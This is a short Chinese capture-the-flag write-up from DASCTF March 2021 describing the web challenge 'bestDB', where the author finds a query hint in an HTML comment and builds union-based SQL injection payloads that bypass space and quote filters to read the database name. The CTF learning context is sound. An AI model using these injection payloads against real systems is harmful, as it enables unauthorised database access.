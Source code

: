 ```yaml
---
title: DASCTF三月赛
comments: true
hide: false
date: 2021-03-29 19:17:53
urlname: mardasctf
updated:
password:
tags:
  - SQL
categories: Write-Up
---
```




队伍名称：err0rcm



我是菜鸡，每次比赛都缺点灵性。

就做出来一题，当然准确来说也不算做出来，倒在了最后一步。反思...

本人比较菜，详细写一下，给自己好好总结

## WEB

### bestDB

> 由于电脑崩了:(  bp和网页都没了，只能凭我写了

进去一个查询框，题目名字有db，肯定是注入了。

注释中发现hint

```html
<!-- SELECT * FROM users WHERE id = '$query' OR username = \"$query\" --!>
```

这就建个数据库测试，经测试发现ban了空格和单引号，测试出了payload

`-1"union/**/select/**/1,2,3"`

![union](mardasctf/image-20210329193545757.png)

回显位为1和2，改改以前的脚本，查数据库名

```sql
-1"union/**/select/**/1,database(),3"

# databases==========>users
```
